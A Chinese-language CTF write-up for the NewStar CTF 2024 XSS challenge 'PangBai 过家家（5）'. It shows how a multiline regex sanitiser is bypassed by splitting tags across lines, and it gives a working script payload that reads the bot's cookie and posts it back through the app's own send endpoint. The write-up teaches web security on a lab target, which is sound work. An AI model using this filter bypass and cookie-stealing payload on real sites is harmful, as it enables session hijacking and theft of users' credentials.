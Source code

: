 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# PangBai 过家家（5）

这是一题 XSS 题。XSS 题目的典型就是有一个 Bot，flag 通常就在这个 Bot 的 Cookie 里面。

XSS 的全称是跨站脚本攻击，存在这种攻击方式的原因是，用户访问到的网页内容并不是服务端期望的那样，可能存在恶意的代码。例如，你点击一个网页链接，但是它却执行了攻击者的前端 JavaScript 代码，将你的登录凭据、隐私信息发送给攻击者。在 XSS 题中，Bot 就承担这个受害者用户。

题目有一个发件的路由，还有一个查看信件的路由，以及一个「提醒 PangBai」的按钮，这个按钮实际就是让 Bot 访问查看当前信件的路由。

我们要做的就是找到一处能够展示我们的输入的地方，想办法使内容展示之后，浏览器能够执行我们恶意的 JavaScript 代码。这样，如果让 Bot 去访问这个 URL，恶意代码就会在 Bot 的浏览器执行，我们的恶意代码可以执行获取 Cookie 等操作。

从 `bot.ts` 可见，FLAG 在 Cookie 中：

```typescript
await page.setCookie({
    name: 'FLAG',
    value: process.env['FLAG'] || 'flag{test_flag}',
    httpOnly: false,
    path: '/',
    domain: 'localhost:3000',
    sameSite: 'Strict'
});
```

我们直接输入 `<script>alert(1)</script>` 做测试，访问查看信件的界面，查看源码，发现输入被过滤了。

跟踪附件中的后端源码，`page.ts` 中的 `/box/:id` 路由，会渲染我们的输入：

```typescript
router.get('/box/:id', async (ctx, next) => {
    const letter = Memory.get(ctx.params['id'])
    await ctx.render('letter', <TmplProps>{
        page_title: 'PangBai 过家家 (5)',
        sub_title: '查看信件',
        id: ctx.params['id'],
        hint_text: HINT_LETTERS[Math.floor(Math.random() * HINT_LETTERS.length)],
        data: letter ? {
            title: safe_html(letter.title),
            content: safe_html(letter.content)
        } : { title: TITLE_EMPTY, content: CONTENT_EMPTY },
        error: letter ? null : '找不到该信件'
    })
})
```

但是输入的内容都经过了 `safe_html` 过滤

```typescript
function safe_html(str: string) {
    return str
        .replace(/<.*>/igm, '')
        .replace(/<\.*>/igm, '')
        .replace(/<.*>.*<\/.*>/igm, '')
}
```

可见这只是一个正则替换，正则中各个标志的作用：

- `i` 标志：忽略大小写
- `g` 标志：全局匹配，找到所有符合条件的内容
- `m` 标志：多行匹配，每次匹配时按行进行匹配，而不是对整个字符串进行匹配<span data-desc>（与之对应的是 `s` 标志，表示单行模式，将换行符看作字符串中的普通字符）</span>

由于 `m` 的存在，匹配开始为行首，匹配结束为行尾，因此我们只需要把 `<` 和 `>` 放在不同行即可，例如：

```javascript
<script
>alert(1)</script
>
```

此时我们就能执行恶意代码了。直接使用 `document.cookie` 即可获取到 Bot 的 Cookie。
拿到 Cookie 之后，怎么回显呢？如果题目靶机是出网的，可以发送到自己的服务器上面；但是题目靶机并不出网，这时可以写一个 JavaScript 代码，模拟用户操作，将 Cookie 作为一个信件的内容提交（让 Bot 写信），这样我们就能查看到了。例如：

```javascript
<script
>
fetch('/api/send', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({'title': "Cookie", 'content': document.cookie})
})
</script
>
```

:::warning 注意

`fetch` 中的请求路径可以是相对路径、绝对路径等，因此上面忽略了 Origin，如果显示指定，必须和当前的 Origin 一样，否则存在跨域问题。从 bot.ts 中可以看到 Bot 访问的是 `http://localhost:3000`，因此使用 `http://127.0.0.1:3000` 是不行的。

把 Payload 提交之后，如果手动查看信件并点击「提醒 PangBai」，会触发两次 Payload，一次是你自己查看信件时触发的，一次是 Bot 触发的。

:::

提交并「提醒 PangBai」之后，稍等一会，查看信箱，就可以看到内容了。

![查看 flag_1](/assets/images/wp/2024/week5/pangbai5_1.png)

![查看 flag_2](/assets/images/wp/2024/week5/pangbai5_2.png)

